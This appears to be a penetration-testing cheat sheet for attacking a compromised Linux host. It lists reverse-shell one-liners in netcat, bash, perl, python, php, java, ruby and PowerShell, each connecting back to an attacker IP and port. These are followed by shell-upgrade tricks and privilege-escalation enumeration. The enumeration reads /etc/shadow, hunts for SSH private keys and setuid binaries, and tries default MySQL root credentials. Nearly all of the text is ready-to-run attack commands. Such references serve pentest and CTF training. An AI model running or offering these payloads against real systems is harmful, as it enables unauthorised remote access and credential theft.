 ## getting a reverse shell:-
### Try using netcat as follows:-
1. on your attacker machine set up a listener by:- nc -lvp "port"
2. on the compromised machine connect with the listener and spawn shell by:- nc -e /bin/bash "attacking machine IP" "port"

### If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
/bin/bash -i >& /dev/tcp/IP/PORT 0>&1 (via bash)<br />
or<br />
perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' (via perl)<br />
or<br />
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' (via python) <br />
or<br />
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' (via php)<br />
or<br />
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() (via java)<br />
or<br />
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)' (via ruby)<br />
or<br />
powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" (via powershell)
# getting a tty shell:-
python -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python -c ‘import pty; pty.spawn("/bin/sh")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
SHELL="/bin/bash" script -q /dev/null<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

stty -a <br />
#### *then do the following in the victim shell*<br />
export SHELL=/bin/bash<br />
export TERM=xterm256-color<br />
stty rows "rows u found in step1" columns "columns u found in step1"<br />

## Making the shell interactive:-

stty raw -echo

## the obvious stuff:-

history (to check the bash history)<br />
whoami (to check the current user)<br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

uname -a (to get the version of the kernel)<br />
cat /etc/shells 2>/dev/null (list available shells)<br />
ps aux 2>/dev/null<br />
find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (init.d files not belonging to root)<br />
find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (systemd files not belonging to root)<br />
mysql --version 2>/dev/null (to check the version of mysql if installed to check for any known vulnerabilities)<br />
mysqladmin -uroot -proot version 2>/dev/null (to check if default creds work)<br />
mysqladmin -uroot version 2>/dev/null (to check if no pass works)<br />
psql -V 2>/dev/null (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (read rights)<br />
find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (write rights)<br />
find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (executable rights)<br />
find / -user root -perm -4000 2>/dev/null (for getting setuid files)<br />
find / -user root -perm -2000 2>/dev/null (for getting all setgid files)<br />
find / \( -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" \) 2>/dev/null  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To get a netcat shell in bsd if -e flag is missing

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f

## To locate a file 

locate <file_name>
